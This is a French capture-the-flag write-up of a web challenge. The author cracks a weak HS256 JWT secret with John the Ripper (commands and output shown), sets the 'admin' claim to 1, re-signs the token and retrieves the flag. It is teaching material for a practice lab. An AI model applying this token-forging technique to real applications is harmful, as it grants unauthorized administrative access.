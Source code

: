 # Write-up

## Analyse de l'application web

En arrivant sur la page d'accueil de l'application, si nous n'avons pas nettoyé les cookies, une erreur de JWT apparaît. Il est nécessaire de supprimer le cookie mis en place par le précédent challenge.

![Erreur JWT](tortuegeante1.png)
![Suppression du cookie](tortuegeante2.png)

Encore une fois, nous tombons sur un formulaire de login qui accepte toutes les informations d'authentification.

![Forumulaire de login](tortuegeante3.png)

Encore une fois nous recevons un JWT comme cookie et l'accès à l'application nous est toujours refusé.

![Réponse suite à la saisie d'informations dans le formulaire de login](tortuegeante4.png)

La structure du payload nous donne toujours un format du type : ```{"admin":0,"exp":EPOCH}```.

Un indice nous indique que ```Seule la patience et la persévérance peuvent venir à bout de ma protection```. Cela ressemble fortement à la nécessité de bruteforcer le secret.

# Bruteforce de la clé privée

On copie donc le JWT dans un fichier pour le cracker avec [John the Ripper](https://github.com/openwall/john).

```bash
$ cat > /tmp/hash << EOF
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6MCwiZXhwIjoxNzI4ODA5ODM2fQ.wcMEZhrZRprqy8-a2fC2sbvsWrNUBcj3gpf9epyssck
EOF
```
```bash
$ john /tmp/hash --format=HMAC-SHA256
Using default input encoding: UTF-8
Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 128/128 ASIMD 4x])
Proceeding with single, rules:Single
Press 'q' or Ctrl-C to abort, almost any other key for status
Almost done: Processing the remaining buffered candidate passwords, if any.
Proceeding with wordlist:/opt/homebrew/Cellar/john-jumbo/1.9.0_1/share/john/password.lst, rules:Wordlist
123456789        (?)
1g 0:00:00:00 DONE 2/3 (2024-10-13 19:50) 100.0g/s 25600p/s 25600c/s 25600C/s 123456..franklin
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

La clé est donc ```123456789```, nous allons modifier le payload du JWT pour mettre la clé ```admin``` à ```1``` puis resigner le JWT avec la clé obtenue en utilisant https://jwt.io.

![Modification du payload et signature du JWT avec jwt.io](tortuegeante5.png)

On met en place le JWT dans le navigateur et recharge la page pour obtenir le flag.

![Flag](tortuegeante6.png)
